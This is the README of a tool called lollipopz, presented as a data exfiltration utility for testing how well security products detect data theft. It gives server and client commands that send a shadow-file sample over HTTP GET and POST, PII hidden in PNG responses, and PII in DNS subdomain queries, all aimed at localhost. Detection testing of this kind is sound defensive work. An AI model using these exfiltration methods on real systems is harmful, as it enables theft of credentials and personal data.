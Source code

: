 # lollipopz

    ░▒▓ lollipopz ▓▒░ Data exfiltration utility for testing detection capabilities

## Description

Data exfiltration utility used for testing detection capabilities of security products. Obviously for legal purposes only.

## Exfiltration How-To

### /etc/shadow -> HTTP GET requests

#### Server

    # ./lollipopz-cli.py -m lollipopz.methods.http.param_cipher.GETServer -lp 80 -o output.log

#### Client

    $ ./lollipopz-cli.py -m lollipopz.methods.http.param_cipher.GETClient -rh 127.0.0.1 -rp 80 -i ./samples/shadow.txt -r

### /etc/shadow -> HTTP POST requests

#### Server

    # ./lollipopz-cli.py -m lollipopz.methods.http.param_cipher.POSTServer -lp 80 -o output.log

#### Client

    $ ./lollipopz-cli.py -m lollipopz.methods.http.param_cipher.POSTClient -rh 127.0.0.1 -rp 80 -i ./samples/shadow.txt -r

### PII -> PNG embedded in HTTP Response

#### Server

    $ ./lollipopz-cli.py -m lollipopz.methods.http.image_response.Server -lp 37650 -o output.log

#### Client

    # ./lollipopz-cli.py -m lollipopz.methods.http.image_response.Client -rh 127.0.0.1 -rp 37650 -lp 80 -i ./samples/pii.txt -r

### PII -> DNS subdomains querying

#### Server

    # ./lollipopz-cli.py -m lollipopz.methods.dns.subdomain_cipher.Server -lp 53 -o output.log

#### Client

    $ ./lollipopz-cli.py -m lollipopz.methods.dns.subdomain_cipher.Client -rh 127.0.0.1 -rp 53 -i ./samples/pii.txt -r

